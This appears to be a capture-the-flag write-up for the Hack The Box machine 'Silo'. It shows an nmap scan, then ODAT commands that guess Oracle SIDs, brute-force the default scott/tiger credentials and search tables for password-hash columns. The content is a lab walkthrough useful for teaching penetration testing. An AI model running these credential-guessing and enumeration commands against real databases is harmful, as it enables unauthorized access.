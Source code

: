# Silo

## Enumeration

### Nmap Scan
``` bash
nmap -sC -sV -Pn 10.10.10.82
```
**Results**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 12:02 BST
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7m20s, deviation: 0s, median: 7m20s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-09T11:13:11
|_  start_date: 2020-10-09T11:05:47

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.72 seconds
```
Port 80, RPC, RPC, RPC, Orcacle TNS, RPC. Wait, what? What is ```Oracle TNS listener 12.2.0.2.0 (anauthorized)?```

### ODAT - Oracle Database Attacking Tool
**Tool:** https://github.com/quentinhardy/odat
Download ODAT, you might need to install the ```cx_Oracle``` module, do this via ```python3 -m pip install cx_Oracle```.

#### Users
We can use the ODAT tool to try and retrieve a list of SIDS
```bash
python3 ./odat.py sidguesser -s 10.10.10.82
...
...
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB
```
These SIDs can now be put back into ODAT, this time using the ```passwordguesser``` option.
```
python3 ./odat.py passwordguesser -s 10.10.10.82 -d XE
...
...
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger
```
This is cool. We now have some credentials. Maybe we can login to the database with these. ```scott/tiger``` are default credentials of Oracle

#### Access
Now that we have some credentials we can enumerate the Oracle database.

##### Tables
We can continue using ODAT to get a description of all of the tables.
```bash
python3 odat.py search -s 10.10.10.82 -d XE -U scott -P tiger --desc-tables
```
ODAT also allows us to search for collumns which contain the ```%pass%``` pattern.
```
user@kali:~/odat$ python3 odat.py search -s 10.10.10.82 -d XE -U scott -P tiger --column-names PASSWD

[+] owner   table_name   column_name       example      
===================================================
SYS     EXU8USRU     PASSWD        F894844C34402B67
```


## What have we learned
##### Search
Keep searching. Everyone of the services you see on nmap, if you don't know what it does or what it is then you have to spend some time looking them up. This is how I found the ```odat``` tool. Search ```pentesting <service>``` and read the first 10 links. Have a look at ```ippsec.rocks``` also.
